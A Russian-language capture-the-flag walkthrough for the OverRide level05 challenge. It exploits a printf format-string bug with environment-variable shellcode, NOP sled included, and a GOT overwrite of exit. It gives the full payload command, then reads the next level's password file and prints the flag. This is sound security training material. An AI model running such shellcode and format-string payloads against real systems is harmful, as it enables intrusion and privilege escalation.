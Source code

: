 [back](../defense.md)

На этом уровне прога запрашивает ввод данных и выводит их в нижнем регистре

```
level05@OverRide:~$ ./level05
sf
sf
level05@OverRide:~$ ./level05
DFG
dfg
```

Запустив gdb, обнаруживаем, что программа проста: 

читает в буфер из 100 символов,

```
0x08048466 <+34>:	movl   $0x64,0x4(%esp)
```

программа проверяет каждый символ и, если он в верхнем регистре, выполняет XOR 0x20  

```
0x080484bb <+119>:	xor    $0x20,%edx
```

преобразовая введенные символы в нижний регистр. 

После этой операции буфер отправляется в printf, 

```
0x08048507 <+195>:	call   0x8048340 <printf@plt>
```

что открывает нам лазейку для эксплойта строкового формата.

Функция main заканчивается интересными строками:

```
0x08048507 <+195>:	call   0x8048340 <printf@plt>
0x0804850c <+200>:	movl   $0x0,(%esp)
0x08048513 <+207>:	call   0x8048370 <exit@plt>
```

Попробуем воспользоваться уязвимостями функции печати

Однако, стек не является исполняемым. 

Переполнение буфера нам не даст возможности вызвать system("/bin/sh")) в стеке.

Отметим, что буфер модифицируется с помощью XOR, и мы не можем поместить туда наш шелл-код. 

Еще и main покидает программу через выход, а не возврат. 

У нас есть два варианта: либо изменить вызов для выхода в глобальной таблице смещений, либо манипулировать значением, которое printf будет использовать для возврата из своего вызова и возврата в main. 

В обоих случаях можно использовать шелл-код переменной окружения.

Для этого будем использовать стандартный вызов, взятый [тут](https://shell-storm.org/shellcode/files/shellcode-827.html)

```
char *shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69"
		  "\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80";
(gdb) b *main
Breakpoint 1 at 0x8048444
(gdb) r
Starting program: /home/users/level05/level05
Breakpoint 1, 0x08048444 in main ()
(gdb) x/200s environ
0xffffd892:	 "/home/users/level05/level05"
0xffffd8ae:	 "SHELL=/bin/bash"

export SHELLCODE=`python -c 'print("\x90"*100 + 
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80")'`

0xffffd80c:	 "/home/users/level05/level05"
0xffffd828:	 "SHELLCODE=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220
\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220
\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220
\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220
\220\220\220\220\220\220\220\220\220\220\061\300Ph//shh/bin\211\343PS\211\341\260\v\315\200"
0xffffd8ae:	 "SHELL=/bin/bash"

(gdb) x/200sx 0xffffd828
0xffffd828:	0x53	0x48	0x45	0x4c	0x4c	0x43	0x4f	0x44
0xffffd830:	0x45	0x3d	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd838:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd840:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd848:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd850:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd858:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd860:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd868:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd870:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd878:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd880:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd888:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd890:	0x90	0x90	0x90	0x90	0x90	0x90	0x31	0xc0
0xffffd898:	0x50	0x68	0x2f	0x2f	0x73	0x68	0x68	0x2f
0xffffd8a0:	0x62	0x69	0x6e	0x89	0xe3	0x50	0x53	0x89
0xffffd8a8:	0xe1	0xb0	0x0b	0xcd	0x80	0x00	0x53	0x48
0xffffd8b0:	0x45	0x4c	0x4c	0x3d	0x2f	0x62	0x69	0x6e
0xffffd8b8:	0x2f	0x62	0x61	0x73	0x68	0x00	0x54	0x45
0xffffd8c0:	0x52	0x4d	0x3d	0x78	0x74	0x65	0x72	0x6d
0xffffd8c8:	0x2d	0x32	0x35	0x36	0x63	0x6f	0x6c	0x6f
0xffffd8d0:	0x72	0x00	0x53	0x53	0x48	0x5f	0x43	0x4c
0xffffd8d8:	0x49	0x45	0x4e	0x54	0x3d	0x31	0x39	0x32
0xffffd8e0:	0x2e	0x31	0x36	0x38	0x2e	0x35	0x36	0x2e
0xffffd8e8:	0x31	0x20	0x36	0x31	0x35	0x30	0x35	0x20
(gdb)
```

Итак наш шеллкод находится по адресу 0xffffd897.

Отступим на 2 байта, чтобы перейти четко на начальный адрес его исполнения.

т.к. адрес слишком велик, чтобы перейти к printf()десятичному %d формату (выходит за пределы maxint). Мы можем передать его в десятичном виде как 2 
коротких целых числа (записанных по 2 байта каждое).

```
0xffffd897 - 0х00000010 = 0xffffd887
```

разделим на 2 ча и переведем в десятичный код.

```
0xffffd887
0xd838 -> 55431
0xffff -> 65535
```

Посмотрим, сразу ли печатается введенные символы:

```
level05@OverRide:~$ python -c 'print "BBBB"+"-%x"*21' | ./level05
bbbb-64-f7fcfac0-f7ec3af9-ffffd60f-ffffd60e-0-ffffffff-ffffd694-f7fdb000-62626262-2d78252d-
252d7825-78252d78-2d78252d-252d7825-78252d78-2d78252d-252d7825-78252d78-2d78252d-252d7825
```

Наши символы находятся на 10й позиции.

```
0xffffd828
```

Найдем адрес выхода:

```
(gdb) info function exit
All functions matching regular expression "exit":
Non-debugging symbols:
0x08048370  exit
0x08048370  exit@plt
(gdb) x/i 0x08048370
0x8048370 <exit@plt>:	jmp    *0x80497e0
```

Для взлома используем: адрес exit, и exit +2 для двух частей внедряемого числа.

адрес шеллкода в десятичном формате, разделенный на две части по 4 байта

55431 для одной части

65535 - 55431 = 10104 для другой части 

printf()аргументы форматирования:

%10$hn для 10-го аргумента, полуслово/короткое целое [2 байта]

%11$hn для 11-го аргумента, полуслово/короткое целое [2 байта]

Получаем:

```
(python -c "print '\xe0\x97\x04\x08' + '\xe2\x97\x04\x08' + '%55423c' + '%10\$hn'+ '%10104c' + '%11\$hn'"; cat) | ./level05
```

проверяем.

```
cat /home/users/level06/.pass
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq 
```

[back](../defense.md)
